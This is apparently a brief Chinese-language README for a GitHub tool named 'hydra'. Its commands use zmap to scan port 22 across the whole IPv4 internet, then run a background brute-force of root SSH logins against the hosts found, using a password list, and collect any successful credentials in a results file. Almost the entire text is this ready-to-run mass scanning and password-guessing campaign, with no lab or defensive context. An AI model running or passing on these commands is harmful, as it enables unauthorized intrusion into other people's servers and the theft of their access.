   ### 安装zmap 克隆项目

	apt update && apt install zmap && apt install git && git clone https://github.com/qq1521575701/hydra.git && cd hydra && chmod +x hydra.sh

  ### zmap扫描ssh服务

	zmap -p 22 0.0.0.0/0 -N 10000 -o ssh.txt

  ### 运行项目
  	zmap -p 22 0.0.0.0/0 -N 1000 -o ssh.txt -i ens32 && nohup ./hydra.sh ssh.txt root pass.txt 50 res.txt > hydra.log &
  	nohup ./hydra.sh ssh.txt root pass.txt 50 res.txt > hydra.log &

  ### 查看运行详情

  	tail -f hydra.log

 ### 查看结果

  	tail -f res.txt
  
